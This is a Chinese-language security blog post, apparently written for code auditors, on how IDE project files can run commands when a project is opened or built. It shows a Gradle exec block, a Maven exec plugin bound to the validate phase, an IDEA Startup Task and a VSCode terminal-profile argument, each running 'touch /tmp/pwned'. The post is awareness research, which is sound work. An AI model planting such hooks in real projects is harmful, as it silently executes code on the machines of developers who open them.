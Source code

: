 ```yaml
---
title: 利用项目配置文件进行 RCE - IDE Trust Project 功能探究
date: 2021-10-02 20:43:33
tags: [misc]
---
```


最近发现在打开 IDEA, VSCode 项目时候, 都增加了 "信任此项目的提示". 结合这些 IDE 的特点, 确实可能存在在打开项目时产生 RCE 的风险, 特别是进行代码审计的安全人员, 会经常打开未知的项目. 正常人肯定不会贸然的执行未知的代码, 但是对于打开项目时这个弹出的框框, 可能并不会特别在意. 接下来分析一些通过这些配置来进行 RCE 的方法.  

![](https://i.loli.net/2021/10/02/ToPQhtryzgDUdCs.png)

<!--more-->

## IDEA

### Gradle

最先想到的是 java 项目常用的构建工具 gradle. 它的 build 方式不同于 maven 的那种声明式 xml, 而是通过运行一个 build.gradle 脚本, 类似于 python 安装模块时的 setup.py. 我们自然可以通过编写恶意的 build.gradle 脚本来达到 RCE 的目的, 示例如下  

```gradle
plugins {
    id 'java'
}

group 'org.example'
version '1.0-SNAPSHOT'

exec {
    commandLine 'touch', '/tmp/pwned'
}

repositories {
    mavenCentral()
}

dependencies {
    testImplementation 'org.junit.jupiter:junit-jupiter-api:5.7.0'
    testRuntimeOnly 'org.junit.jupiter:junit-jupiter-engine:5.7.0'
}

test {
    useJUnitPlatform()
}
```

其中  
```
exec {
    commandLine 'touch', '/tmp/pwned'
}
```
即是 RCE 的部分, 非常的简单直接  
如果打开 Safe Mode, 是不会运行 build.gradle 的, 保证了用户的安全, 但是如果信任了这个项目, IDEA 就会自动运行 build.gradle  

### Maven

maven 在经过测试后, 似乎 IDEA 并没有真正的运行 `mvn` 命令, 在用户 0-click 的情况下, 似乎只是解析了 pom.xml, 然后下载依赖, 分析 main class, 并没有真正进行 maven 的 lifecycle  
但是如果目标会进行 mvn package 等操作, 我们可以通过 mvn plugin 插件达到 RCE 的目的.  

一个示例如下  
```xml
<plugins>
    <plugin>
    <artifactId>exec-maven-plugin</artifactId>
    <version>3.0.0</version>
    <groupId>org.codehaus.mojo</groupId>
    <executions>
        <execution>
        <id>exec</id>
        <phase>validate</phase>
        <goals>
            <goal>exec</goal>
        </goals>
        </execution>
    </executions>
    <configuration>
        <executable>touch</executable>
        <arguments>
        <argument>/tmp/pwned</argument>
        </arguments>
    </configuration>
    </plugin>
</plugins>
```
`exec-maven-plugin` 是一个现成的执行命令的 mvn plugin, 我们将其制定在 mvn phase = validate 时执行, 这样在目标进行 package 时就会执行 `touch /tmp/pwned` (一个可能受害的场景是打包成 jar 然后复制到 docker 里面运行)  

### IDEA 本身

除了这些常用的 build 工具, IDEA 本身也自带一个 `Startup Task` 功能, 在 `Tools -> Startup Task` 中可以找到, 我们可以自己添加一个 Shell Script 任务. 这些配置会保存在 `.idea/workspace.xml` 中, 并且这个利用方式应该可以给 Jetbrains 全家桶来使用, 会在项目打开时自动运行  

![](https://i.loli.net/2021/10/02/51Hy7hcepfXiGgC.png)  

## VSCode

VSCode 本身功能较少, 大部分功能其实靠插件来实现, 所以我找到最泛用的是替换默认的 Shell 选项, 在 `.vscode/settings.json` 中添加  

```json
{
    "terminal.integrated.defaultProfile.linux": "bash",
    "terminal.integrated.profiles.linux": {
        "bash": {
            "path": "bash",
            "icon": "terminal-bash",
            "args": ["-c", "touch /tmp/pwned; bash"]
        },
        "zsh": {
            "path": "zsh",
        },
        "fish": {
            "path": "fish"
        },
        "tmux": {
            "path": "tmux",
            "icon": "terminal-tmux"
        },
        "pwsh": {
            "path": "pwsh",
            "icon": "terminal-powershell"
        }
    }
}
```

这样打开 vscode 的终端时, 就会无感执行命令  

## 总结

最后, 这些 IDE 丰富的功能确实留下来非常多的攻击面, 对陌生的项目最好好看看再进行 `Trust`. 不然漏洞还没找到, 自己先被对方反杀了.  
